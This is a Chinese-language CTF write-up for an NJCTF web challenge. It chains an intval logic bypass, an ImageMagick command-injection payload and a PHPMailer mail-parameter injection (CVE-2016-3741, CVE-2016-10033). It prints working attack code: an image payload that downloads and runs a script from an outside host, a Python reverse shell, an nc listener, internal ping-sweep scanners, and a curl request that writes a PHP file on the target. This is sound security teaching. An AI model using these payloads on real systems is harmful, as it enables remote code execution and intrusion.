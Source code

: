 ```yaml
---
title: Be Logical-逻辑漏洞->ImageMagick->PHPMailer
date: 2017-03-28 00:00:00
categories:
- CTF/Web
tags: NJCTF 内网扫描 ImageMagick PHPMailer php黑魔法 intval
---
```


## 解题步骤

### 逻辑漏洞

- 是后台在refund的操作中，用了intval函数，比较point与mony是否相等，来确认数据没有被篡改。但是，我们可以通过科学计数法绕过。intval(1e3)=intval(1)。这样就能购买服务了。

### ImageMagick

> 这里有 convert 图片的功能，猜测是ImageMagick命令执行漏洞

- 命令执行漏洞是出在ImageMagick对https形式的文件处理的过程中

> 上传1.png

```bash
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|wget http://bendawang.site:8000/a.py -O /tmp/bendawang.py && python /tmp/bendawang.py 103.228.131.75 12310")'
pop graphic-context
```

---

> python 反弹shell

```python
import socket,subprocess,os,sys;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect((sys.argv[1],int(sys.argv[2])));

# 重定向标准输入，标准输出，标准错误到socket连接中
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);

# 子进程打开一个shell
p=subprocess.call(["/bin/sh","-i"]);
```
---
> nc开启监听

```bash
$ nc -l 12310
```

- 并没有在本机发现flag

### 内网扫描

> 快速探测内网

```bash
$ arp -nv

```

---

> python 扫描脚本

```python
#-*- coding: utf-8 -*-  
#author: orangleliu  date: 2014-11-12  
#python2.7.x  ip_scaner.py  
  
''''' 
不同平台，实现对所在内网端的ip扫描 
 
有时候需要知道所在局域网的有效ip，但是又不想找特定的工具来扫描。 
使用方法 python ip_scaner.py 192.168.1.1  
(会扫描192.168.1.1-255的ip) 
'''  
  
import platform  
import sys  
import os  
import time  
import thread  
  
def get_os():  
    ''''' 
    get os 类型 
    '''  
    os = platform.system()  
    if os == "Windows":  
        return "n"  
    else:  
        return "c"  
      
def ping_ip(ip_str):  
    cmd = ["ping", "-{op}".format(op=get_os()),  
           "1", ip_str]  
    output = os.popen(" ".join(cmd)).readlines()  
      
    flag = False  
    for line in list(output):  
        if not line:  
            continue  
        if str(line).upper().find("TTL") >=0:  
            flag = True  
            break  
    if flag:  
        print "ip: %s is ok ***"%ip_str  
  
def find_ip(ip_prefix):  
    ''''' 
    给出当前的127.0.0 ，然后扫描整个段所有地址 
    '''  
    for i in range(1,256):  
        ip = '%s.%s'%(ip_prefix,i)  
        thread.start_new_thread(ping_ip, (ip,))  
        time.sleep(0.3)  
      
if __name__ == "__main__":  
    print "start time %s"%time.ctime()  
    commandargs = sys.argv[1:]  
    args = "".join(commandargs)      
      
    ip_prefix = '.'.join(args.split('.')[:-1])  
    find_ip(ip_prefix)  
    print "end time %s"%time.ctime() 
```

---

> bash扫描脚本

```bash
scan()  {
  #statements
  ping -c 1 $1.$2 > /dev/null && echo "$1.$2 is alive"
}
for  i in `seq 1 254`
do
   scan $1 $i  &
done
```

-  发现存活主机

```bash
Address                  HWtype  HWaddress           Flags Mask            Iface
172.17.42.1              ether   72:1d:76:57:41:32   C                     eth0
172.26.0.20              ether   72:1d:76:57:41:32   C                     eth0
172.17.0.1               ether   02:42:ac:11:00:01   C                     eth0
172.17.0.19              ether   02:42:ac:11:00:13   C                     eth0
Entries: 4  Skipped: 0  Found: 4
```

- curl测试可以看到在172.17.0.19存活一个Mail SYSTEM

### PHPMailer

- 攻击者只需巧妙地构造出一个形如`aaa( -X/home/www/success.php )@qq.com`的恶意邮箱地址，即可写入任意文件，造成远程命令执行的危害，测试如下

```bash
curl http://172.17.0.19 -d "subject=aaaaa&email=aaa( -X /var/www/html/uploads/bendawang.php -OQueueDirectory=/tmp )@qq.com&message=<?php phpinfo();?>&submit=Send email"
```

- 读目录文件得到flag

## 知识小结

- intval()函数逻辑漏洞（题目设定）

- 内网扫描

- ImageMagick 命令执行漏洞
[http://www.tuicool.com/articles/rYvueaN](http://www.tuicool.com/articles/rYvueaN)

- PHPMailer 命令执行漏洞
[https://blog.chaitin.cn/phpmailer-cve-2016-10033/](https://blog.chaitin.cn/phpmailer-cve-2016-10033/)

## CVE漏洞编号

- CVE-2016-3741
- CVE-2016-10033